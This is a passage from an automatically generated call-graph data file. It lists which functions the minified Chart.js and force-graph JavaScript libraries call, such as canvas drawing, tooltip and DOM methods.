"static/js/chart.min.js", "target": "getBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getAfterBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getFooter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "itemSort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_createItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBeforeBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getAfterBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getFooter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawCaret"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCaretPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getCaretPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "textAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawColorBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "leftForLtr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setLineDash"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "leftForLtr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "leftForLtr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "values"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "some"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "strokeRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "textAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_drawColorBox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "max"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawFooter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "textAlign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fillText"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beginPath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "moveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawCaret"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "quadraticCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawCaret"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "quadraticCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawCaret"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "quadraticCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawCaret"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "lineTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "quadraticCurveTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "closePath"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "fill"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateAnimationTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_resolveAnimations"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_willRender"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_updateAnimationTarget"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "save"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBackground"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawTitle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawBody"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "drawFooter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "restore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "setActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getDatasetMeta"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_positionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_positionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_getActiveElements"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getParsed"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "getElementsAtEventForMode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "_positionChanged"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterInit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "beforeUpdate"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "reset"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterDraw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "draw"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "notifyPlugins"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "afterEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "handleEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "register"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/chart.min.js", "target": "assign"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "define"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getOwnPropertySymbols"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "filter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getOwnPropertyDescriptor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperties"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "bind"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "matches"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "matches"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "has"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "delete"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getComputedStyle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getPropertyValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "trim"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "add"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cloneNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "removeEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addEventListener"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "initEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "initEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "querySelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "querySelectorAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "splice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "createSVGPoint"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "matrixTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "inverse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "selectAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "enter"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "selection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "selection"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "merge"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "order"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "compareDocumentPosition"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sort"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "order"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getAttributeNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "node"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "each"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "select"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "insertBefore"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 